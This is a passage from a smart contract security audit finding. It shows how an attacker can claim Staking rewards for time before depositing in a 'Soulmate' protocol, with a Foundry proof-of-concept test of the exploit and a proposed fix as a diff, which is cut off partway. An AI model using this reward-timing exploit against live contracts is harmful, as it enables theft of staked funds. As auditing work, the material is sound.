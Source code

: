 We can imagine the most-likely scenario and how it plays out:

1. User A calls `Soulmate::mintSoulmateToken()`.
2. User B calls `Soulmate::mintSoulmateToken()` and now NFT #0 has been minted.
3. 7 days passes by since NFT #0 was minted.
4. User A calls `Airdrop::claim()` and now has 7 lovetokens.
5. User A transfers 7 lovetokens to user C.
6. User C deposits 7 lovetokens to Staking contract.
7. User C calls `Soulmate::mintSoulmateToken()` and is awaiting a soulmate.
8. User C calls `Staking::claimRewards()`.

Below you can see a POC of the above scenario including how `block.timestamp` affects rewards:

```javascript
    function test_ClaimRewardsWithoutSoulmate() public {
        vm.warp(block.timestamp + 2 weeks);

        _mintOneTokenForBothSoulmates();

        vm.warp(block.timestamp + 1 weeks + 1 seconds);

        vm.prank(soulmate1);
        airdropContract.claim();

        address attacker = makeAddr("attacker");
        uint256 amountToAttackWith = 7 ether;

        vm.prank(soulmate1);
        loveToken.transfer(attacker, amountToAttackWith);

        vm.startPrank(attacker);
        soulmateContract.mintSoulmateToken();
        loveToken.approve(address(stakingContract), amountToAttackWith);
        stakingContract.deposit(amountToAttackWith);
        stakingContract.claimRewards();

        assertTrue(loveToken.balanceOf(attacker) == 21 ether); // 7 tokens deposited * 3 weeks = 21 tokens!
    }
```

## Tools Used

VS Code, Foundry

## Recommendations

Consider creating a `lastDeposit` mapping and setting the mapping in `Staking::deposit()` for a deposit and reference that timestamp in `Staking::claimRewards()` for the very first claim of an user. You'll also want to include a check to make sure a user has deposited. Note that this could "reset" the ability to claim if the user makes multiple deposits prior to their first claim:

```diff
+   error Staking__NoDepositsMade();

+   mapping(address user => uint256 timestamp) public lastDeposit;

    function deposit(uint256 amount) public {
        if (loveToken.balanceOf(address(stakingVault)) == 0)
            revert Staking__NoMoreRewards();
        // No require needed because of overflow protection
        userStakes[msg.sender] += amount;
+       lastDeposit[msg.sender] = block.timestamp;
        loveToken.transferFrom(msg.sender, address(this), amount);

        emit Deposited(msg.sender, amount);
```